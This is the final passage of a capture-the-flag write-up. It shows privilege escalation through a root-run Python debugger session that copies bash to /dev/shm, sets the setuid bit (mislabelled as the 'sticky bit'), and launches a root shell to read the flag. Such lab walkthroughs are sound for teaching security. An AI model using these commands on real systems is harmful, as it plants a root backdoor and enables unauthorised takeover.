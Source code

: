We saw the script imported the os module, so we can use that to execute system commands as root:

```text
(Pdb) import os
(Pdb) os.system ('cp /bin/bash /dev/shm/bash')
0
(Pdb) os.system ('chmod u+s /dev/shm/bash')
0
(Pdb) exit
```

There's lots of different things we could have done here, i've just copied bash to a temp area and added the sticky bit so I can run it as root without a password.

Now we can grab the root flag to complete the box:

```sh
-bash-5.0$ cd /dev/shm
-bash-5.0$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
<HIDDEN>
```

That was a pretty easy box to say it was classed as medium. I hope you enjoyed it, see you next time.
